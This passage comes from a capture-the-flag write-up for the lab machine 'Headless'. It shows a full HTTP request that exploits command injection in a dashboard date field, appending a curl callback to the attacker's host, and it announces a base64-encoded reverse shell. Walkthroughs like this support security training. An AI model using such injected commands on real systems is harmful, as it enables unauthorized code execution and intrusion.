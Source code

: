 When browsing to this URL with our admin token we were able to access it while with our previous one we were not.

![Dashboard](/assets/img/Headless/Headless_07.png)

### Command execution

So now that we have access to this new page we can see it only has one functionality. While testing this functionality i found out it was vulnerable to command injection. i tested this by sending a simple curl command after a semi colon. After sending the following request i'd get a callback on my websever

```
POST /dashboard HTTP/1.1
Host: 10.129.222.226:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://10.129.222.226:5000
Connection: close
Referer: http://10.129.222.226:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; curl http://10.10.16.27/CODETEST
```

![Code execution](/assets/img/Headless/Headless_08.png)


So after this all we have to do is get a working reverse shell payload. To save me the hassle of messing with syntax i decided to base64 encode my command.
